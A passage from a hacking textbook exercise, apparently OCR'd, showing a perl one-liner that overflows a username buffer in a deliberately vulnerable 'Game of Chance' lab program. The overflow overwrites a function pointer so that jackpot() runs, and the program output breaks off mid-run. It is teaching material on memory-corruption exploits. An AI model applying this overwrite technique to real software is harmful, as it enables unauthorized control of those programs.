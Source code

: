 </pre>

This same technique can be used to script everything needed for the exploit. The following line will play the Pick a Number game once, then change the username to _100 A_’s followed by the address of the _jackpot()_ function. This will overflow the __current_game__ function pointer, so when the Pick a Number game is played again, the _jackpot()_ function is called directly.

<pre style="color: white;">
reader@hacking:~/booksrc $ perl -e 'print "1\n5\nn\n5\n" . "A"x100 . "\x70\
x8d\x04\x08\n" . "1\nn\n" . "7\n"'
1
5
n
5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAp?
1
n
7
reader@hacking:~/booksrc $ perl -e 'print "1\n5\nn\n5\n" . "A"x100 . "\x70\
x8d\x04\x08\n" . "1\nn\n" . "7\n"' | ./game_of_chance
-=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: Jon Erickson]
[You have 50 credits] ->
[DEBUG] current_game pointer @ 0x08048fde

####### Pick a Number ######
This game costs 10 credits to play. Simply pick a number
between 1 and 20, and if you pick the winning number, you
will win the jackpot of 100 credits!

10 credits have been deducted from your account.
Pick a number between 1 and 20: The winning number is 15
Sorry, you didn't win.

You now have 40 credits
Would you like to play again? (y/n) -=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: Jon Erickson]
[You have 40 credits] ->
Change user name
Enter your new name: Your name has been changed.
